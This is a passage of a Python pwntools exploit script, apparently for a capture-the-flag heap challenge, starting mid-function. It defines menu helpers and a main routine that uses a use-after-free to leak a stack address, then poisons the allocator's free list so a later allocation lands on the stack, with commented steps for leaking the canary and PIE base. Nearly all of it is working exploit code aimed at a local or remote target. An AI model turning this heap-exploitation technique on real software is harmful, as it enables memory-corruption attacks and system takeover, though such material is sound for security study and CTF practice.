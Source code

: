 ```python
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0x20)
    free(0)

    # leak stack address
    # raw_input("DEBUG")
    echo(0, 0x8)
    target.recvuntil(b"Data: ")
    stack = (
        int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little") + 0x6
    )
    target.success(f"stack: {hex(stack)}")

    malloc(0, 0x20)
    malloc(1, 0x20)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0x20)
    malloc(0, 0x20)  # slot 0 store stack addr

    # leak canary (not necessary)
    # echo(0, 0x1)
    # target.recvuntil(b"Data: ")
    # canary = int.from_bytes(target.recvline()[:7].rjust(0x8, b"\x00"), "little")
    # target.success(f"canary: {hex(canary)}")

    # leak pie
```